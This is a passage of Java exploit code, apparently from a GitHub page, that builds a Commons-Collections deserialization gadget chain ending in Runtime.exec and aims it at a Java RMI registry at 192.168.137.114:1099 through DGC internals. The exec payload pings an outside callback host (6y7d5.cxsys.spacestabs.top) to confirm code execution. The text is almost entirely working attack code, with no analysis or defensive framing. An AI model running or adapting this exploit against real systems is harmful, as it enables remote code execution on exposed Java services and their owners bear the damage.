 ```java
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> transformedMap = TransformedMap.transformingMap(map,null,chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, transformedMap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("192.168.137.114", 1099);
        Remote helloRemoteObject = registry.lookup("helloRemoteObject");
        InvocationHandler handler = Proxy.getInvocationHandler(helloRemoteObject);
        Class<?> clazzRemoteObject = Class.forName("java.rmi.server.RemoteObject");
        Field refRemoteObject = clazzRemoteObject.getDeclaredField("ref");
        refRemoteObject.setAccessible(true);
        UnicastRef unicastRef = (UnicastRef) refRemoteObject.get(handler);

        Class<?> clazzUnicastRef = Class.forName("sun.rmi.server.UnicastRef");
        Field refUnicastRef = clazzUnicastRef.getDeclaredField("ref");
        refUnicastRef.setAccessible(true);
        LiveRef liveRef = (LiveRef) refUnicastRef.get(unicastRef);

        Class<?> clazzLiveRef = Class.forName("sun.rmi.transport.LiveRef");
        Field refLiveRef = clazzLiveRef.getDeclaredField("ep");
        refLiveRef.setAccessible(true);
        TCPEndpoint tcpEndpoint = (TCPEndpoint) refLiveRef.get(liveRef);

        Class<?> clazzTCPEndpoint = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
        Method lookupTCPEndpoint = clazzTCPEndpoint.getDeclaredMethod("lookup", Endpoint.class);
        lookupTCPEndpoint.setAccessible(true);
        lookupTCPEndpoint.invoke(null, tcpEndpoint);
    }
}
```
